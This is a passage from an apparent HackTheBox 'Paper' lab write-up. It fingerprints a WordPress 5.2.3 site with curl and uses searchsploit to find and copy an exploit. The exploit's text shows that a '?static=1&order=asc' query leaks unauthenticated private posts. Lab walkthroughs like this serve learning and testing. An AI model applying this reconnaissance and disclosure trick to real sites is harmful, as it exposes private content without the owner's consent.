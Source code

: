 [This](https://smartwp.com/check-wordpress-version/) shows you what too look for to get the version number:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper | grep "generator"
<meta name="generator" content="WordPress 5.2.3" />
```

## Searchsploit

Now use searchsploit to look for a vulnerability:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# searchsploit wordpress 5.2.3
-------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                       | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts   | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                   | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities       | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                 | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection               | php/webapps/48918.sh
-------------------------------------------------------------------------- ---------------------------
```

Second one down is what we are looking for:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# searchsploit -m multiple/webapps/47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text
Copied to: /root/htb/paper/47690.md

┌──(root💀kali)-[~/htb/paper]
└─# cat 47690.md                      
So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Here are a few ways to manipulate the returned entries:
- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```
